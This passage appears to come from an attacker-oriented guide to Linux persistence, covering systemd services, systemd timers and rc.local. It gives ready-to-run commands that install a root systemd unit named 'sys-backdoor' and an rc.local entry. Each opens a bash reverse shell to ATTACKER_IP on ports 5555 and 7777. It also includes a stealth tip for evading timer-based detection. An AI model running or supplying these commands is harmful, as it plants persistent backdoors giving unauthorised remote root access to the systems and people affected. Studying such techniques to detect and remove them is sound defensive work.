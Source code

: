 **Notes:** User-level units persist across reboots and are less likely to be inspected than system units.

---

## 2️⃣ System-wide systemd Service Persistence
System services live in `/etc/systemd/system/`. Creating a unit requires root — but if you can write to this directory (or a service file is writable), you can achieve root persistence.

```bash
sudo tee /etc/systemd/system/sys-backdoor.service > /dev/null <<'EOF'
[Unit]
Description=Sys Backdoor

[Service]
Type=simple
ExecStart=/bin/bash -lc 'bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1'
Restart=always
RestartSec=30

[Install]
WantedBy=multi-user.target
EOF

sudo systemctl daemon-reload
sudo systemctl enable --now sys-backdoor.service
```

---

## 3️⃣ systemd Timers (stealthier than cron)
Timers show as `systemctl list-timers`. They can be used to repeatedly execute payloads without using crontab files.
- Inspect timers: `systemctl list-timers --all`
- Timer files locations: `/etc/systemd/system/*.timer`, `/usr/lib/systemd/system/` and user `~/.config/systemd/user/*.timer`

**Stealth tip (attacker):** Use `OnCalendar` with complex expressions to avoid simple periodic detections.

---

## 4️⃣ rc.local, init scripts, and legacy boot persistence
Older systems or compatibility layers still honor `/etc/rc.local`. Writing to it gives persistence on boot (needs executable bit).

```bash
echo "/bin/bash -lc 'bash -i >& /dev/tcp/ATTACKER_IP/7777 0>&1'" | sudo tee -a /etc/rc.local
sudo chmod +x /etc/rc.local
```

Similarly, init scripts in `/etc/init.d/` can be abused where present.

---